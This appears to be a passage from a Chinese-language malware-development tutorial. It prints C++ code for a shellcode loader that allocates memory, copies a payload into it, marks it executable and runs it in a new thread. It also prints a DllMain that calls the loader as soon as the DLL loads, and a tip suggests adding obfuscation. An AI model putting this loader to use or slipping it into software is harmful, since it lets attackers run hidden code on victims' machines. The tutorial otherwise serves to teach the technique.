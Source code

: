 ### 1 执行payload的函数

和前几章学过的代码类似，执行payload主要包括：分配新的内存空间（缓冲区），拷贝payload至缓冲区，修改缓冲区权限，最后就是执行。因此也是利用`VirtualAlloc、RtlMoveMemory、VirtualProtect、CreateThread`这几个函数实现

> TIPS：可以结合混淆内容（可以练练手，多做）

实现代码如下：

```cpp
int Go(void) {
    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // 分配空间
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    // 拷贝shellcode至目标地址空间
    RtlMoveMemory(exec_mem, payload, payload_len);
    // 修改权限为可执行
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    // 创建线程执行
    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(th, 0);
    }
    return 0;
}
```

### 2 DllMain函数

> 这部分之前也介绍过，不过当时是没有任何操作的

DllMain函数是**DLL模块的默认入口点**。 当系统启动或终止进程或线程时，它将使用进程的第一个线程为每个加载的 DLL 调用入口点函数。MSDN给出了关于[DllMain 入口点](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dllmain)很详细的示例。

源码中，在进程初始化阶段添加了`Go()`函数（执行paylaod的函数），表示DLL被载入执行操作过程中`Go()`函数会被执行

```cpp
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
            // 新进程初始化操作，将该DLL加载到当前进程的虚拟地址空间，执行Go函数
            case DLL_PROCESS_ATTACH:
                    Go();
                    break;
            case DLL_THREAD_ATTACH:     
                    break;
            case DLL_THREAD_DETACH:     
                    break;
            case DLL_PROCESS_DETACH:    
                    break;
            }
    return TRUE;
}   
```
